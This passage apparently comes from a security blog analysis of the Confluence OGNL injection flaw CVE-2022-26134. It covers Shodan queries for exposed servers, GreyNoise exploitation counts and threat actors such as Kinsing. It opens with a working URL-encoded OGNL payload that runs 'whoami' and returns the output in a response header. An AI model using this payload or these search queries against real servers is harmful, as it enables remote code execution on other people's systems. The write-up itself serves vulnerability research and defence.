 ```bash
< Location: /login.action?os_destination=%2F%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D%2Findex.action&permissionViolation=true
< Content-Type: text/html;charset=UTF-8
< Content-Length: 0
< Date: Thu, 02 Jun 2022 23:28:23 GMT
< 
* Connection #0 to host 10.0.0.28 left intact
```

 

### Patch is published and is it over?

If we want to search for potentially vulnerable machines in the wild, for **[Shodan](https://www.shodan.io/search?query=X-Confluence-Request-Time+http.favicon.hash%3A-305179312)** we can easily use these queries: `X-Confluence-Request-Time http.favicon.hash:-305179312` , `X-Confluence-Request-Time` or just `http.favicon.hash:-305179312` . And at time this article was written, the picture was seem far from over. 

According to **[GreyNoise](https://viz.greynoise.io/query/?gnql=tags%3A%22Atlassian%20Confluence%20Server%20CVE-2022-26134%20OGNL%20Injection%20Attempt%22)**, there was just a 23 uniqe Ip trying to exploit this vulnerability till the patch is published. By June 3, the patch was released, but simultaneously with it, POC samples allowing mass scan were also popped up from everywhere. So the unique Ip number was trying to exploit after the 3th of June increased dramatically. 

[atlassian-confluence-server-cve-2022-26134-ognl-injection-attempt_20220609_1024.txt](CVE-2022-26134%20vulnerability%20Same,%20but%20different,%20%205b01c0065b3940e19680b3c3e75656f6/atlassian-confluence-server-cve-2022-26134-ognl-injection-attempt_20220609_1024.txt)

As of June 10, more than **1000 unique IPs** and **multiple threat actors** were associated with the issue. One of the biggest threat actor was [**ONYPHE](https://viz.greynoise.io/query/?gnql=tags%3A%22Atlassian%20Confluence%20Server%20CVE-2022-26134%20OGNL%20Injection%20Attempt%22%20actor%3A%22ONYPHE%22).** 

**Kinsing** was another threat actor also has targeted Confluence in the past using another critical Atlassian Confluence RCE flaw [to install cryptomining malwar](https://www.bleepingcomputer.com/news/security/atlassian-confluence-flaw-actively-exploited-to-install-cryptominers/)e after a PoC exploit was released online.

According to [LaceworkLabs](https://twitter.com/laceworklabs): **Kinsing** came to the scene later on the days of vulnerability. 

[https://twitter.com/Lacework/status/1534209271239417858?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed&ref_url=notion%3A%2F%2Fwww.notion.so%2FDraft-53b2eecb98634d39b4ebd3e0f3a8e829](https://twitter.com/Lacework/status/1534209271239417858?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed&ref_url=notion%3A%2F%2Fwww.notion.so%2FDraft-53b2eecb98634d39b4ebd3e0f3a8e829)

And if we check [**CVETrends**](https://cvetrends.com/) and [**GreyNoise CVE trends**](https://viz.greynoise.io/trends) we can easily realize that even 8 days after the patch was released, it is still among the top trends.

## What we should do after all?
